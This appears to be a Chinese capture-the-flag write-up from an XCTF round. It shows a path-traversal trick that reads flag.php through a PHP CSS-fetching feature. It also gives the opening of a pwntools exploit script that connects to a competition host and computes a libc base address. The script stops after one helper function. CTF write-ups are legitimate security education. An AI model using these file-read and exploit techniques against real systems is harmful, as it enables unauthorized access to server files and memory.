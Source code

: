 # TimeKeeper-XCTF-Second-WriteUp

## WEB

### 签到题

关注公众号

### babyphp

打开是一个端口扫描系统，随手一测发现有flag.php，点击scan后发现

```
Port scan is deperacted and try to find the source code! // Google is your best friend
```

直接去github上搜索，发现该系统源码。

https://github.com/search?l=PHP&q=%3Cinput+type%3D%22text%22+name%3D%22port%22+value%3D%2280%2C8080%2C8888%2C1433%2C3306%22%3E&type=Code

虽然题目环境port scan功能已经没了，但是还有一个

```php
if($url != null){ 

    $host = getHost($url); 
    echo getCss($host,getHtmlContext($url)); 
}
```

的功能。

通过

```php
$csshtml = "<style>".file_get_contents($cssurl)."</style>"; 
```

去读flag.php

所以自己vps上放一个内容为

```html
<link href='./.css/../../flag.php'>
```

的文件。

![rcg95q.png](https://s3.ax1x.com/2020/12/24/rcg95q.png)

## PWN

### honorbook

```PYTHON
from pwn import *

p = remote("121.36.192.114","9999") 
libc = ELF('./libs/lib/libc-2.27.so')
scanf = libc.sym['scanf']
libc.address = 0x00000040009f65bc-scanf-0x1f000
success(hex(libc.address))
def add(idx,name,msg):
    p.sendlineafter("Code:","1")
    p.sendlineafter("ID:",str(idx))
    p.sendlineafter("User name: ",name)
    p.sendafter("Msg: ",msg)
```